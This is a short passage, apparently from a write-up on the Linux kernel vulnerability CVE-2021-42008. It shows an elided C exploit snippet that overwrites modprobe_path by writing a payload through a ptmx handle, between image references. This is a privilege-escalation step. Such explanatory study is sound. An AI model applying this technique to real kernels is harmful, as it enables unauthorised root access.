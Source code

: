 ```c
[...]

puts("[*] Overwriting modprobe_path...");
write(ptmx, payload, WRITE_PAYLOAD_SIZE); // [1]

[...]
```

![12](/images/posts/CVE-2021-42008/\12.png)
